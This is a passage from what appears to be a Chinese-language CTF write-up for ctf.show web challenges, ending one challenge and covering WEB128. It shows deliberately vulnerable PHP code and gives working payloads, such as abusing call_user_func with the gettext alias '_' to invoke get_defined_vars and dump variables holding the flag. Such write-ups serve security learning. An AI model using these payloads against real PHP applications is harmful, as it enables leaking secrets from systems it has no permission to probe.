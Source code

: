 要求ctf_show=ilove36d

extract() 函数从数组中将变量导入到当前的符号表，使用数组键名作为变量名，使用数组键值作为变量值

+和【都被过滤用空客代替

payload:?ctf show=ilove36d

## WEB128

```php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}

function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
}
```

call_user_func() 函数用于调用方法或者变量，第一个参数是被调用的函数，第二个是调用的函数的参数。

关于：

```
<?php
echo gettext("dotastnb");
//输出结果：dotastnb

echo _("ctfshownb");
//输出结果：ctfshownb
```

f1可以为__，即call_user_func(’_’,‘dotastnb’)就可以输出dotastnb

用到一个get_defined_vars

解释：get_defined_vars ( void ) : array 函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义的变量。



payload：?f1=_&f2=get_defined_vars

内部执行过程：

```
var_dump(call_user_func(call_user_func($f1,$f2)));
var_dump(call_user_func(call_user_func(_,'get_defined_vars')));
var_dump(call_user_func(get_defined_vars));//输出数组
```
